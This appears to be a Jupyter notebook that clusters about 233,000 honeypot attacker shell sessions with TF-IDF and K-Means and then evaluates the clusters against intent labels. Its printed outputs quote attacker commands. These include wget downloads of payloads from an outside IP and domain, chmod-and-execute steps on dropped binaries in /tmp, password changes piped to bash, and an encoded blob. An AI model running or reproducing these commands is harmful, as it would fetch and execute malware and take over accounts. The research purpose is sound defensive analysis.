


--- CLUSTER 3 ANALYSIS ---
Top Representative Commands:
.satan*, gopalon", caonimade", e8telnet", /var/tmp/.system9s5d22fourmgf21), cat, gnos", a123456", mdu162617", "iyevymlul2jhc2gky2qgl3rtcakkcm0glxjmic5zc2gkcm0glxjmic5tb3vudgzzcnjtic1yziauwdezlxvuaxgkcm0glxjmic5ymtctdw5peapta2rpciauwde3lxvuaxgky2qgllgxny11bml4cm12ic92yxivdg1wl2rvdgeudgfylmd6igrvdgeudgfylmd6cnrhcib4zibkb3rhlnrhci5negpzbgvlccazcyamjibjzcavdg1wly5ymtctdw5pec8ucnn5bmmvywpub2h1ccavdg1wly5ymtctdw5pec8ucnn5bmmvyy90c20glxqgmtuwic1tidyglxmgniatccaymiatucawic1midaglwsgmsatbcaxic1pidagl3rtcc91cc50ehqgmtkylje2oca+piavzgv2l251bgwgmj4xjgpzbgvlcca4bsamjibub2h1ccavdg1wly5ymtctdw5pec8ucnn5bmmvyy90c20glxqgmtuwic1tidyglxmgniatccaymiatucawic1midaglwsgmsatbcaxic1pidagl3rtcc91cc50ehqgmtcylje2id4+ic9kzxyvbnvsbcaypjemcnnszwvwidiwbsamjibjzcauljsgl3rtcc8uwde3lxvuaxgvlnjzew5jl2luaxrhbgwgmj4xjgplegl0ida="





--- CLUSTER 4 ANALYSIS ---
Top Representative Commands:
lc_all=c, -s, secret", /system, *.sh, change", -bn1, cat, -e, whoami




In [7]:
import matplotlib.pyplot as plt
from wordcloud import WordCloud
import pandas as pd
import numpy as np
import joblib as jl
from sklearn.feature_extraction.text import TfidfVectorizer

print("=== 3.4 CLUSTER CHARACTERIZATION (K-MEANS) ===")

# --- 1. LOAD RESOURCES ---
try:
    # Load the original full-feature TF-IDF matrix (1000 features)
    X_tfidf_full = jl.load('X_tfidf_matrix.pkl')

    # Load cluster labels assigned by K-Means
    labels = jl.load('kmeans_labels.pkl')

    # Load the original dataframe containing raw commands
    df_raw = jl.load('df.pkl')

    print(f"Files Loaded:")
    print(f"   - TF-IDF Matrix: {X_tfidf_full.shape}")
    print(f"   - Labels: {labels.shape}")
    print(f"   - Raw Data: {df_raw.shape}")

except FileNotFoundError as e:
    raise FileNotFoundError(f"Missing file: {e}")

# --- 2. VOCABULARY RECONSTRUCTION ---
print("\n2. Reconstructing vocabulary from raw data...")

if 'full_session' not in df_raw.columns:
    raise ValueError("Column 'full_session' not found in df.pkl")

# Basic text cleaning to match Section 1 preprocessing
def clean_token(text):
    if not isinstance(text, str): return str(text)
    return text.replace('$', '').replace("'{}", '').replace('{', '').replace('}', '').replace("'", "")

corpus = df_raw['full_session'].apply(clean_token).tolist()

# Re-fit vectorizer to map feature indices to actual words
vectorizer = TfidfVectorizer(max_features=1000, token_pattern=r'\S+')
vectorizer.fit(corpus)
feature_names = np.array(vectorizer.get_feature_names_out())

print(f"   -> Vocabulary size: {len(feature_names)} words")

# --- 3. CLUSTER ANALYSIS ---
n_clusters = len(np.unique(labels))
print(f"\n3. Analyzing {n_clusters} Clusters...")

# Create helper dataframe for indexing
df_clusters = pd.DataFrame({'label': labels})

for k in range(n_clusters):
    print(f"\n--- CLUSTER {k} ANALYSIS ---")

    # Identify samples belonging to current cluster
    indices = df_clusters[df_clusters['label'] == k].index

    # Compute mean TF-IDF vector (centroid) for the cluster
    cluster_mean = np.asarray(X_tfidf_full[indices].mean(axis=0)).flatten()

    # Extract top 20 keywords by weight
    top_indices = cluster_mean.argsort()[::-1][:20]
    top_features = feature_names[top_indices]
    top_scores = cluster_mean[top_indices]

    # Display top keywords
    print(f"Top Representative Commands:")
    print(", ".join([f"{word}" for word in top_features[:10]]))

    # Generate Word Cloud
    word_freq = dict(zip(top_features, top_scores))

    # Use distinct colormaps for visual differentiation
    cmap = ['viridis', 'plasma', 'inferno', 'magma', 'cividis'][k % 5]

    wc = WordCloud(width=800, height=400, background_color='white', colormap=cmap).generate_from_frequencies(word_freq)

    plt.figure(figsize=(10, 5))
    plt.imshow(wc, interpolation='bilinear')
    plt.axis('off')
    plt.title(f'Cluster {k} (N={len(indices)}) - Representative Pattern')
    plt.show()

### 3.5 Clusters reflect intent division

For k-means

=== 3.5 EXTERNAL EVALUATION (K-MEANS) ===
Data Loaded:
   - Predicted Clusters: (233035,)
   - Ground Truth Matrix: (233035, 7)

2. Converting Ground Truth to Single Labels...
   -> Classes: ['Defense Evasion' 'Discovery' 'Execution' 'Harmless' 'Impact' 'Other'
 'Persistence']

3. Calculating Evaluation Metrics...
   >>> PURITY: 0.9910 (0 to 1)
   >>> ADJUSTED RAND INDEX (ARI): 0.2238 (-1 to 1)

4. Visualizing Intent Division...





>>> DETAILED CLUSTER COMPOSITION:
   - Cluster 0 is dominated by 'Discovery' (99.56%)
   - Cluster 1 is dominated by 'Defense Evasion' (99.27%)
   - Cluster 2 is dominated by 'Discovery' (100.00%)
   - Cluster 3 is dominated by 'Discovery' (100.00%)
   - Cluster 4 is dominated by 'Defense Evasion' (41.27%)


In [9]:
import matplotlib.pyplot as plt
import pandas as pd
import numpy as np
import joblib as jl
import seaborn as sns
from sklearn.metrics import adjusted_rand_score
from sklearn.preprocessing import MultiLabelBinarizer
import ast

print("=== 3.5 EXTERNAL EVALUATION (K-MEANS) ===")

# --- 1. LOAD DATA ---
try:
    # Load Predicted Cluster Labels (k=5)
    y_pred = jl.load('kmeans_labels.pkl')

    # Load Ground Truth Matrix (The target 'y')
    y_true_matrix = jl.load('matrice_y.pkl')

    # Load Raw Data to recover Class Names (Intents)
    raw_data = jl.load('df_fingerprint_list.pkl')

    print(f"Data Loaded:")
    print(f"   - Predicted Clusters: {y_pred.shape}")
    print(f"   - Ground Truth Matrix: {y_true_matrix.shape}")

except FileNotFoundError as e:
    raise FileNotFoundError(f"Missing file: {e}")

# --- 2. PREPARE GROUND TRUTH LABELS ---
# The y_matrix is multi-label (binary). We need to convert it to single labels
# to compare with K-Means (which is single-label).
# We take the 'argmax' (the first or dominant class) for evaluation purposes.

print("\n2. Converting Ground Truth to Single Labels...")

# Recover class names
if len(raw_data) > 0 and isinstance(raw_data[0], str):
    raw_data = [ast.literal_eval(x) for x in raw_data]
mlb = MultiLabelBinarizer()
mlb.fit(raw_data)
class_names = mlb.classes_
print(f"   -> Classes: {class_names}")

# Convert matrix to array of indices (0 to 6)
y_true_indices = y_true_matrix.argmax(axis=1)
# Map indices to names
y_true_names = np.array([class_names[i] for i in y_true_indices])

# --- 3. CALCULATE METRICS (PURITY & ARI) ---
print("\n3. Calculating Evaluation Metrics...")

def purity_score(y_true, y_pred):
    # Compute confusion matrix
    contingency_matrix = pd.crosstab(y_true, y_pred)
    # Return sum of max values in each column / total samples
    return np.sum(contingency_matrix.max(axis=0)) / np.sum(contingency_matrix.sum())

purity = purity_score(y_true_indices, y_pred)
ari = adjusted_rand_score(y_true_indices, y_pred)

print(f"   >>> PURITY: {purity:.4f} (0 to 1)")
print(f"   >>> ADJUSTED RAND INDEX (ARI): {ari:.4f} (-1 to 1)")

# --- 4. VISUALIZATION (INTENT DISTRIBUTION) ---
print("\n4. Visualizing Intent Division...")

# Create a DataFrame combining Clusters and True Intents
df_eval = pd.DataFrame({
    'Cluster': y_pred,
    'Intent': y_true_names
})

# Cross-tabulation: Count how many of each Intent are in each Cluster
# Normalize='index' calculates percentages per cluster (rows sum to 1)
ct = pd.crosstab(df_eval['Cluster'], df_eval['Intent'], normalize='index')

# Plot Stacked Bar Chart
ax = ct.plot(kind='bar', stacked=True, figsize=(12, 7), colormap='tab10')

plt.title('Homogeneity Analysis: How Intents are divided into K-Means Clusters', fontsize=15)
plt.xlabel('Cluster ID', fontsize=12)
plt.ylabel('Proportion of Intents', fontsize=12)
plt.legend(title='True Intent', bbox_to_anchor=(1.05, 1), loc='upper left')
plt.grid(axis='y', linestyle='--', alpha=0.3)
plt.xticks(rotation=0)
plt.tight_layout()
plt.show()

# --- 5. PRINT DOMINANT CLASS PER CLUSTER ---
print("\n>>> DETAILED CLUSTER COMPOSITION:")
for k in range(len(np.unique(y_pred))):
    row = ct.loc[k]
    dominant = row.idxmax()
    score = row.max()
    print(f"   - Cluster {k} is dominated by '{dominant}' ({score:.2%})")

### 3.6 clusters of similar attacks

3.6.1 Clusters of similiar attacks for k-means

=== 3.6 FINE-GRAINED ATTACK ANALYSIS ===
Data Loaded. Total sessions: 233035

------------------------------------------------------------
>>> DEEP DIVE: CLUSTER 4
------------------------------------------------------------
1. Extracting common command sequences (N-grams)...
   Selected Frequent N-gram sequences:
   - "cd /tmp" (Count: 5585)
   - "chmod 777" (Count: 5456)
   - "lc_all=c passwd" (Count: 4992)
   - "/bin/busybox chmod" (Count: 4930)
   - "/bin/busybox chmod 777" (Count: 4925)
   - "sh shell" (Count: 4887)
   - "shell cd" (Count: 4855)
   - "shell cd /tmp" (Count: 4851)
   - "sh shell cd" (Count: 4834)
   - "/bin/busybox wget" (Count: 4793)

2. Inspecting 3 Random Sessions:
   Sample 1: cd /tmp && chmod +x k7XsQ39k && bash -c ./k7XsQ39k ; ./k7XsQ39k ;...
   Sample 2: ls ; w ; wget fanelishere.ro/arhive/info ; nproc ; lscpu ; exit ;...
   Sample 3: #!/bin/sh ; PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin ; wget http://192.200.192.252/isu80 ; cur




------------------------------------------------------------
>>> DEEP DIVE: CLUSTER 0
------------------------------------------------------------
1. Extracting common command sequences (N-grams)...
   Selected Frequent N-gram sequences:
   - "/proc/cpuinfo grep" (Count: 14974)
   - "cat /proc/cpuinfo" (Count: 14974)
   - "cat /proc/cpuinfo grep" (Count: 14974)
   - "grep name" (Count: 14974)
   - "/proc/cpuinfo grep name" (Count: 10001)
   - "awk '{print" (Count: 10000)
   - "-n 1" (Count: 9979)
   - "head -n" (Count: 9979)
   - "head -n 1" (Count: 9979)
   - "grep name wc" (Count: 9974)

2. Inspecting 3 Random Sessions:
   Sample 1: cat /proc/cpuinfo | grep name | wc -l ; echo -e "protv\nR8RuTUaZgdRi\nR8RuTUaZgdRi" | passwd | bash ; echo "protv\nR8RuTUaZgdRi\nR8RuTUaZgdRi\n" | pas...
   Sample 2: cat /proc/cpuinfo | grep name | wc -l ; echo -e "microbusiness\nSGaoOHHjBkN9\nSGaoOHHjBkN9" | passwd | bash ; echo "microbusiness\nSGaoOHHjBkN9\nSGaoO...
   Sample 3: cat /proc/cpuinfo | gr



In [10]:
import matplotlib.pyplot as plt
import pandas as pd
import numpy as np
import joblib as jl
from sklearn.feature_extraction.text import CountVectorizer
import networkx as nx
import random

print("=== 3.6 FINE-GRAINED ATTACK ANALYSIS ===")

# --- 1. LOAD DATA ---

try:
    df_raw = jl.load('df.pkl')
    labels = jl.load('kmeans_labels.pkl')
    df_raw['cluster'] = labels
    print(f"Data Loaded. Total sessions: {len(df_raw)}")
except FileNotFoundError:
    raise FileNotFoundError("Run previous steps to generate 'df.pkl' and 'kmeans_labels.pkl'")





# --- 2. DEFINE ANALYSIS FUNCTION ---
def analyze_fine_grained(cluster_id):
    print(f"\n{'-'*60}")
    print(f">>> DEEP DIVE: CLUSTER {cluster_id}")
    print(f"{'-'*60}")

    # Isolate sessions belonging to the specific cluster
    cluster_docs = df_raw[df_raw['cluster'] == cluster_id]['full_session'].astype(str).tolist()

    # --- A. N-Gram Analysis ---
    print(f"1. Extracting common command sequences (N-grams)...")

    def clean_text(text):
        return text.replace(';', ' ').replace('|', ' ').replace('&', ' ')

    cluster_docs_clean = [clean_text(doc) for doc in cluster_docs]

    # Using a fixed seed to ensure results are reproducible.
    random.seed(42)
    if len(cluster_docs_clean) > 5000:
        cluster_docs_clean = random.sample(cluster_docs_clean, 5000)

    ngram_vectorizer = CountVectorizer(ngram_range=(2, 3), max_features=20, token_pattern=r'\S+')
    try:
        X_ngram = ngram_vectorizer.fit_transform(cluster_docs_clean)
        counts = X_ngram.sum(axis=0).A1
        vocab = ngram_vectorizer.get_feature_names_out()
        freq_dist = list(zip(vocab, counts))
        freq_dist.sort(key=lambda x: x[1], reverse=True)

        print("   Selected Frequent N-gram sequences:")
        for phrase, count in freq_dist[:10]:
            print(f"   - \"{phrase}\" (Count: {count})")
    except ValueError:
        print("   (Not enough data for N-grams)")

    # --- B. Raw Session Inspection ---
    print(f"\n2. Inspecting 3 Random Sessions:")
    if len(df_raw[df_raw['cluster'] == cluster_id]) > 0:
        # Sample 3 random sessions to sanity check the statistical findings
        sample_sessions = df_raw[df_raw['cluster'] == cluster_id]['full_session'].sample(
            min(3, len(cluster_docs)), random_state=42
        ).values
        for i, sess in enumerate(sample_sessions):
            print(f"   Sample {i+1}: {sess[:150]}...")
    else:
        print("   No sessions in this cluster.")

    # --- C. Co-occurrence Graph Visualization ---
    print(f"\n3. Generating Co-occurrence Graph...")

    try:
        # Increase max_features slightly to capture broader context for the graph
        graph_vectorizer = CountVectorizer(max_features=25, stop_words=['and', 'the', 'to'], token_pattern=r'\S+')
        X_graph = graph_vectorizer.fit_transform(cluster_docs_clean)

        # Compute the co-occurrence matrix
        xc = (X_graph.T * X_graph)
        xc.setdiag(0) # Remove self-loops (word appearing with itself)

        names = graph_vectorizer.get_feature_names_out()
        total_counts = X_graph.sum(axis=0).A1
        word_counts_dict = dict(zip(names, total_counts))

        G = nx.Graph()
        rows, cols = xc.nonzero()

        # Dynamic threshold: only keep edges with >5% of the max co-occurrence
        # to prevent the graph from becoming a "hairball"
        max_val = xc.max()
        threshold = max_val * 0.05

        for i, j in zip(rows, cols):
            weight = xc[i, j]
            if weight > threshold:
                G.add_edge(names[i], names[j], weight=weight)

        # Plotting with node sizing
        if len(G.nodes) > 0:
            plt.figure(figsize=(12, 10))

            pos = nx.spring_layout(G, k=2.5, seed=42, iterations=50)
            node_sizes = []
            for node in G.nodes():
                freq = word_counts_dict[node]
                text_len = len(node)

                # Base size derived from frequency
                freq_size = freq * 0.5

                # Minimum size required to fit the word (heuristic: length * factor)
                min_text_size = (text_len * 500) + 1500

                # Pick the larger of the two to ensure readability
                final_size = max(freq_size, min_text_size)

                # Cap the maximum size to keep the graph tidy
                final_size = min(final_size, 12000)

                node_sizes.append(final_size)

            # Draw components
            nx.draw_networkx_nodes(G, pos, node_size=node_sizes, node_color='#87CEEB', alpha=0.95, edgecolors='navy')
            nx.draw_networkx_edges(G, pos, width=1.5, alpha=0.4, edge_color='gray')
            nx.draw_networkx_labels(G, pos, font_size=9, font_weight='bold', font_color='black')
            plt.title(f"Attack Context Graph - Cluster {cluster_id}", fontsize=15)
            plt.axis('off')
            plt.margins(0.2)
            plt.tight_layout()
            plt.show()
        else:
            print("   (No strong connections found)")

    except ValueError:
        print("   (Not enough data for graph)")

# --- 3. RUN ---
analyze_fine_grained(4)
analyze_fine_grained(0)